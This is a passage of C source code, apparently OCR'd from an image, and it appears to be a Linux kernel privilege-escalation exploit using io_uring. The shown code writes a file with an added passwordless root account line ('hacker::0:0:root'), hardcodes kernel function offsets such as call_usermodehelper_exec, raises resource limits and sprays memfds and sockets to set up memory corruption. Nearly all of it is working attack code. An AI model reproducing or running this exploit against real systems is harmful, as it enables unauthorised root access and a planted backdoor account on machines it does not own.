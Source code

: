 ```
        die("open failed");
    }
    while (fgets(buffer, sizeof(buffer), sourceFile) != NULL) {
        fputs(buffer, destFile);
    }

    fprintf(destFile, "hacker::0:0:root:/root:/bin/sh\n");

    fclose(sourceFile);
    fclose(destFile);
    logu("prep_file");
}
int main(void){
#define SOCK_DEF_READALBE_OFFSET 0xcf7540
#define CALL_USERMODEHELPER_EXEC_WORK_OFFSET 0xfe610
#define CALL_USERMODEHELPER_EXEC_OFFSET 0xfe080
#define call_usermodehelper_exec_async_offset 0xfe4a0
    int ret,nr_memfds,nr_sockets,tmp;
    int *memfds,*sockets;
    int recv_fd,recv_fd2,block_size;
    void* recv_buf,*recv_buf2;
    int nr_pages;
    void* oob_buf ;
    struct io_uring ring;
    struct iovec uiovec;
    struct io_uring_cqe* cqe;
    struct io_uring_sqe* sqe;
    BLUE;puts("[*]start");CLOSE;
    prep_file();
    bind_cpu(0);
// 1、解除当前进程限制
    prep_rlimit(&nr_memfds,&nr_sockets);
// 2、初始化 io_uring、共享空间
    logu("io_uring_queue_init");
    io_uring_queue_init(4,&ring,0);

    memfds = malloc(sizeof(*memfds)*nr_memfds);
    sockets = malloc(sizeof(*sockets)*nr_sockets);
    logu("init memfds && sockets");
    for (size_t i = 0,tmp=0; i < nr_memfds; i++)
    {
        memfds[i]=setup_memfd_physics("mowen_fd",1);
        if(i < nr_sockets) {
            sockets[i] = setup_socket(SOCKET_TAG);
            tmp++;
        }
    }
    nr_sockets = tmp;
    nr_pages = 65000;
    
    logu("init recv_buf");
    block_size = 0x100;
    recv_fd=setup_memfd_physics("recv_fd",block_size);
    recv_buf = mmap(0,block_size*PAGE_SIZE,PROT_WRITE|PROT_READ,
                        MAP_SHARED,recv_fd,0);
    recv_fd2=setup_memfd_physics("recv_fd2",block_size);
    recv_buf2 = mmap(0,0x5000,PROT_WRITE|PROT_READ,
                        MAP_SHARED,recv_fd,0);                    
    if(recv_buf==MAP_FAILED || recv_buf2==MAP_FAILED)
            die("failed mmap recv_buf"); 
    logi("recv_buf -> %p",recv_buf);

    for (size_t i = 0; i < nr_pages; i++)
```